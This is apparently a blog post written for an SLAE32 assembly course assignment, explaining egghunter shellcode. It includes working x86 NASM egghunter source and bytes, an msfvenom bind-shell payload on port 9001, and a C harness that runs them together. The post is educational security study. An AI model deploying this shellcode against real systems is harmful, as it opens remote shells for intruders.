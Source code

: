 ```yaml
---
title: SLAE32 - Assignment#3 [Egghunter]
author: bigb0ss
date: 2020-12-26 23:53:00 +0800
categories: [SLAE32, Assignment_3_Egghunter]
tags: [slae32, assembly, x86, Egghunter]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #3 
* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

# What is Egghunter?
Personally, I have dealt with Egghunter when I was studying for the [OSCE course](https://www.offensive-security.com/offsec/retiring-ctp-intro-new-courses/) form Offensive Security. Egghunter is essentially a staged payload and is comprised with relatively short shellcode (around 30+ bytes). In a situation where the first buffer space is limited, we can implement the Egghunter shellcode there, and this will search the process memory for the much bigger buffer space where we place the signature (aka "Egg") with our final reverse/bind shellcode.

The below image is a simplified version of how Egghunter works: 

![image](/assets/img/post/slae32/assignment3/01.png)

# Egghunter In Depth

![image](/assets/img/post/slae32/assignment3/02.png)

Even though I knew what Egghunter was and how to use it, I wanted to understand it in greater detail. So I read Matt Miller's [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) to learn more about Egghunter. 

The following is the key take-away from the article:

* Per the author, 8 byte egg is recommended since it can give enough uniqueness that it can easily selected without running any high risk of a collision. 

## Linux Egghunter Implementation

* In Linux implementation, there are two main methods: 
    * 1) SIGSEGV handler to catch invalid memory address dereferences and prevent the program from crashing
    * 2) Using OS system call interface to validate process VMAs in kernel mode. 

* In Linux implementation, the SIGSEGV handler technique has a big drawback of a size issue. 

* In Linux implementation, the fact that the system call will return the `EFAULT` error code when it encounters an invalid memory space is the exact type of information needed for Egghunter since it can traverse the process' VAS without crashing the program. 

| Techniques (Linux) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| access | 39 bytes | Yes | Very robust | Bigger size, Eggs should be executable, limiting the range of unique eggs |
| access (Improved) | 35 bytes | No | Very robust, non-executable eggs | Still a bit bigger size, Fails if Direction Flag (DF) is set | 
| sigaction | 30 bytes | No | Faster and smaller size | In certain scenarios, it may be not robust, Fails if Direction Flag (DF) is set |

## Windows Egghunter Implementation

* In Windows implementation, there are also two main methods:
    * 1) SEH (Structure Exception Handler)
    * 2) OS System call (IsBadReadPtr & NtDisplayString)

| Techniques (Windows) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| SEH | 60 bytes | No | Can run on any Windows version, Can search eggs bigger than 8 bytes | Bigger size, Fails if Direction Flag (DF) is set |
| IsBadReadPtr | 37 bytes | No | Robust (API-based approach) | Use of a static VMA, Potential race condition, Fails if Direction Flag (DF) is set |
| NtDisplayString | 32 bytes | No | Smallest, Fastest, Most robust | Static system call number, Fails if Direction Flag (DF) is set |

# Egghunter Shellcode
For demonstration purposes, I will be using the Linux implementation of `access()` syscall version to build the Egghunter payload. Let's create the following `egghunter.nasm` file:

```s
global _start

section .text

_start:
        mov ebx, 0x50905090     ; 4 byte Egg (*Little-Endian)
        xor ecx, ecx            ; Zero out ECX
        mul ecx                 ; Zero out EAX and EDX

next_page:
        or dx, 0xfff            ; Set PAGE_SIZE 4095 (0x1000)

next_addr:
        inc edx                 ; Increment by 4095 (0x1000)
        pushad                  ; Preserve all general purposes register values onto the stack
        lea ebx, [edx+4]        ; Checking if the address is readable
        mov al, 0x21            ; Set AL to syscall access() (0x21)
        int 0x80                ; Soft-interrupt to execute the syscall

        cmp al, 0xf2            ; Check for EFAULT (Invalid memory space)
        popad                   ; Restore the preserved registers
        jz next_page            ; EFAULT --> Invalid memory space --> Next page

        cmp [edx], ebx          ; Check for the address if it contains our egg
        jnz next_addr           ; If not, go back to look for our first egg 

        cmp [edx+4], ebx        ; Check for the address + 4 if it contains our second egg 
        jnz next_addr           ; If not, go back to look for our second egg

        jmp edx                 ; Both eggs are found --> JMP to EDX --> Continue execution flow
```

## Compile + Bind Shellcode (msfvenom)

I created a simple compiler [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py). 

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# python compilerX86.py -f egghunter
 
  ________  ________  _____ ______   ________  ___  ___       _______   ________     ___    ___ ________  ________         
 |\   ____\|\   __  \|\   _ \  _   \|\   __  \|\  \|\  \     |\  ___ \ |\   __  \   |\  \  /  /|\   __  \|\   ____\        
 \ \  \___|\ \  \|\  \ \  \\\__\ \  \ \  \|\  \ \  \ \  \    \ \   __/|\ \  \|\  \  \ \  \/  / | \  \|\  \ \  \___|      
  \ \  \    \ \  \\\  \ \  \\|__| \  \ \   ____\ \  \ \  \    \ \  \_|/_\ \   _  _\  \ \    / / \ \   __  \ \  \____   
   \ \  \____\ \  \\\  \ \  \    \ \  \ \  \___|\ \  \ \  \____\ \  \_|\ \ \  \\  \|  /     \/   \ \  \|\  \ \  ___  \ 
    \ \_______\ \_______\ \__\    \ \__\ \__\    \ \__\ \_______\ \_______\ \__\\ _\ /  /\   \    \ \_______\ \_______\ 
     \|_______|\|_______|\|__|     \|__|\|__|     \|__|\|_______|\|_______|\|__|\|__/__/ /\ __\    \|_______|\|_______|    
                                                                                    |__|/ \|__|     [bigb0ss] v1.0         

[+] Assemble: egghunter.nasm
[+] Linking: egghunter.o
[+] Shellcode: "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

Additionally, using msfvenom, let's create a bind shell:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# msfvenom -p linux/x86/shell_bind_tcp lport=9001 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

## Final Touch

Finally, let's combine those bind shellcode and egghunter to create the following exploit script `egghunter.c`:

```c
#include <stdio.h>

unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42"
"\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a"
"\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50"  // Egg
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

void main() {
    int (*ret)() = (int(*)())egghunter;
    ret();

    return 0;
}
```

![image](/assets/img/post/slae32/assignment3/03.png)


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)